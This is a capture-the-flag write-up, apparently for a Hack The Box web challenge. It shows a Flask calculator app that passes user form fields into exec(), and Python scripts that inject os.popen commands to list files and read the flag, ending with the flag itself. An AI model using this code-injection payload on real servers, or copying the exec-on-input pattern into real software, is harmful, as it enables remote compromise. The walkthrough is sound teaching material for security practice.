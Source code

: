 # baby interdimensional internet
## Challenge description
aw man, aw geez, my grandpa rick is passed out from all the drinking again, where is a calculator when you need one, aw geez

## Looking around
When we visit the website in a browser, we see this.

![website](./site.PNG)

There is a number that seems to change everytime we refresh the page. First thing we are going to do is look at the source.

![website source](./source.PNG)

We can see there is a hint for a `/debug` page where we find the source for the challenge.

## Challenge source code

```python
from flask import Flask, Response, request, render_template, request
from random import choice, randint
from string import lowercase
from functools import wraps

app = Flask(__name__)

def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass

def GCR(func): # Great Calculator of the observable universe and it's infinite timelines
	@wraps(func)
	def federation(*args, **kwargs):
		ingredient = ''.join(choice(lowercase) for _ in range(10))
		recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))

		if request.method == 'POST':
			ingredient = request.form.get('ingredient', '')
			recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))

		calc(recipe)

		if garage.get(ingredient, ''):
			return render_template('index.html', calculations=garage[ingredient])

		return func(*args, **kwargs)
	return federation

@app.route('/', methods=['GET', 'POST'])
@GCR
def index():
	return render_template('index.html')

@app.route('/debug')
def debug():
	return Response(open(__file__).read(), mimetype='text/plain')

if __name__ == '__main__':
	app.run('0.0.0.0', port=1337)
```

## Methodology

Here we see a very simple `flask` webapp. We see we can perform a `GET` and `POST` request on `/` endpoint and `GET` on `/debug`. When we perform a `POST` on `/` we eventually hit this part of the code.

```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

In this part of the code we can influence how to `recipe` string is going to look like. This string is later going to be used as a parameter for method `calc()`.

```python
calc(recipe)
```

This method provides an attack vector that we are going to exploit.

```python
def calc(recipe):
	global garage
	garage = {}
	try: exec(recipe, garage)
	except: pass
```

This is a very simple exploit. Here we can see, method `exec()` directly executes python code that we provided in `recipe` variable. This is going to win us a challenge.

## Standard behaviour
When we visit the page we are implicitly using the `GET` request on `/`. Therefore we don't visit the if branch with the `POST` but we visit this part of the code.

```python
ingredient = ''.join(choice(lowercase) for _ in range(10))

recipe = '%s = %s' % (ingredient, ''.join(map(str, [randint(1, 69), choice(['+', '-', '*']), randint(1,69)])))
```

Here `recipe` is assembled automatically using random values. Example.

```python
'zurkssxoqj = 38-65'
```

This gets sent to the `calc()` method. Here the `exec()` would look like this.

```python
try: exec('zurkssxoqj = 38-65', garage)
```

This gets executed internally and we can see there is a `garage` parameter which is a global variable therefore accessable in the whole script. `garage` is a dictionary that holds all the references to variables in the executed context. In our case, it would hold an item (beside other implicit values).

```python
{'zurkssxoqj' = -27}
```

Back to the `federation()` method.

```python
if garage.get(ingredient, ''):
	return render_template('index.html', calculations=garage[ingredient])
```

Here we extract the value from the `ingredient` variable and send it to the template to be rendered as the number we see on the screen. After the substitution the code would look like this.

```python
if garage.get('zurkssxoqj', ''):
	return render_template('index.html', calculations=garage['zurkssxoqj'])
```

## Exploit
We can send a `POST` request to craft our own recipe. When we do that we are accessing this part of the code.

```python
if request.method == 'POST':
	ingredient = request.form.get('ingredient', '')
	recipe = '%s = %s' % (ingredient, request.form.get('measurements', ''))
```

From above we can see, that the webapp extracts values of variables `ingredient` and `measurements` from request body. We can try to send a POST request containing those variables in the body, and potentialy assemble our malicious `recipe`.

As an example we can start lightly to confirm we can control the `recipe`. An example `POST` body would look like this.

```json
{
    "ingredient": "our_var",
    "measurements": "1337"
}
```

The `recipe` would look like this.

```python
'our_var = 1337'
```

We are going to use python `requests` module to send our request.

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '1337'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

In the response we see our number 1337, meaning we can successfully control the `exec()` statement.

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> 1337 </h1>
```

As for the exploit, we can import the `os` module and have `RCE` on the server.

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("ls").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

The `exec` would look like this.

```python
try: exec('our_var = __import__("os").popen("ls").read()', garage)
```

We are going to list the items in webapp `cwd`.

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> app.py\nflag\ntemplates\n </h1>
```

We see there is a file named flag which contains the challenge secret.

## Final exploit code

```python
#!/usr/bin/python3 

import requests 

data = {'ingredient': 'our_var', 'measurements': '__import__("os").popen("cat flag").read()'}
addr = 'http://<ip>:<port>'
r = requests.post(addr, data=data)

print(r.content)
```

```
<h1 style='font-size: 140px; text-shadow: 2px 2px 0 #0C3447, 5px 5px 0 #6a1b9a, 10px 10px 0 #00131E;'> HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3} </h1>
```

## Flag
**HTB{n3v3r_trust1ng_us3r_1nput_ag41n_1n_my_l1f3}**
